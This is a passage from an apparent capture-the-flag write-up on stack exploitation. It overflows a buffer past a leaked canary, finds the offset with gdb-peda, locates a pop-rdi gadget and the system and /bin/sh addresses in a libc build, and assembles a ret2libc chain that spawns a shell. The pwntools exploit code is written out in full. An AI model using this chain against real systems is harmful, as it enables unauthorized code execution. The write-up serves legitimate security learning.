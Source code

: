 Now, let's send a really long string there and also attach GDB to this process.&#x20;

<pre class="language-python"><code class="lang-python"><strong>gdb.attach(p) # somewhere on top	
</strong><strong>	buffer = b'A' * 24
</strong>	buffer += p64(canary)
	pattern = b'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
	buffer += pattern
	p.sendline(buffer)
	pause()
</code></pre>

When `gdb` pops up, just press `c` to continue the execution. Afterwards, our script will send our string pattern and it will be reflected in the stack values from `gdb`:

<figure><img src="../../.gitbook/assets/image (414).png" alt=""><figcaption></figcaption></figure>

Taking the first 8 characters, we can find the offset:

```
gdb-peda$ pattern offset ABAA$AAn
ABAA$AAn found at offset: 8
```

So we need 8 more rubbish characters. Now, we need to find 3 last things before crafting the rest of the exploit:

1. `pop rdi; ret` gadget
2. `system` function from `libc`
3. `/bin/sh` string from `libc`.

```
$ ROPgadget --binary libc6_2.27-3ubuntu1.2_amd64.so | grep "pop rdi ; ret" 
0x000000000002155f : pop rdi ; ret

$ strings -a -t x libc6_2.27-3ubuntu1.2_amd64.so| grep "/bin/sh"
 1b40fa /bin/sh
 
$ readelf -s libc6_2.27-3ubuntu1.2_amd64.so| grep system  
  1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

Great! Now, using this we can easily create our exploit chain.&#x20;

<pre class="language-python"><code class="lang-python"><strong>buffer = b'A' * 24
</strong>buffer += p64(canary)
buffer += b'A' * 8
buffer += p64(pop_rdi)
buffer += p64(binsh)
buffer += p64(system)
p.send(buffer)
p.interactive()
</code></pre>
